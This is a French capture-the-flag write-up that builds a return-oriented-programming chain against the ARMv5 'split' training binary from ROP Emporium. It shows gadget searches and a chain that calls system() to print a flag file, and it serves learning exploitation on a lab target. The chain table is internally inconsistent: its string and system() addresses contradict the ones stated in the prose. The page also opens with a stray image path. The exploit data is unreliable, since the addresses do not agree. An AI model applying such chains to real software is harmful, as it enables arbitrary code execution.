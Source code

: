     [0x00010428]> ps @ obj.usefulString
    /bin/cat flag.txt
[



## Construction de l'attaque.

Notre objectif va être d'appeller la fonction system en appellant l'adresse 0x000105e0 avec en paramètre l'adresse la la chaine "/bin/cat flag.txt".

Pour passer le paramêtre il nous faut charger le registre r0 avec l'adresse 0x0002103c.

### Recherche de gadgets

Il nous faut d'abord un gadget qui permet de charger r0.

On ne trouve pas de gadget avec un `pop r0`.
En revanche on trouve des operations de type mov.

    ropemporium/armv5/split# ROPgadget --binary split_armv5 --depth 3|grep mov
    0x000105e0 : bl #0x103ec ; mov r0, r0 ; pop {fp, pc}
    0x000105e4 : mov r0, r0 ; pop {fp, pc}
    0x000105bc : mov r0, r0 ; sub sp, fp, #4 ; pop {fp, pc}
    0x00010558 : mov r0, r3 ; pop {fp, pc}
    0x00010634 : mov r0, r7 ; blx r3
    0x00010630 : mov r1, r8 ; mov r0, r7 ; blx r3
    0x00010554 : mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
    0x00010504 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}

    0x00010558 : mov r0, r3 ; pop {fp, pc}

On recherche un pop pour charge r3 :

    ropemporium/armv5/split# ROPgadget --binary split_armv5 --depth 2|grep pop|grep r3
    0x000103a0 : bl #0x10464 ; pop {r3, pc}
    0x00010558 : mov r0, r3 ; pop {fp, pc}
    0x000103a4 : pop {r3, pc}
    0x00010654 : push {r3, lr} ; pop {r3, pc}
    0x00010508 : strb r3, [r4] ; pop {r4, pc}

On peut retenir pour charger r0 :

    0x000103a4 : pop {r3, pc}
    0x00010558 : mov r0, r3 ; pop {fp, pc}



### La ropchaine

| ROP entry | comment |
| ----------- | ------- |
| 0x000103a4 | pop {r3, pc}|
| 0x004009c8 | @ /bin/cat flag.txt |
| 0x00010558 | mov r0, r3 ; pop {fp, pc}|
| 0xdeadbeef | pour fp |
| 0x004009ec | appel system |
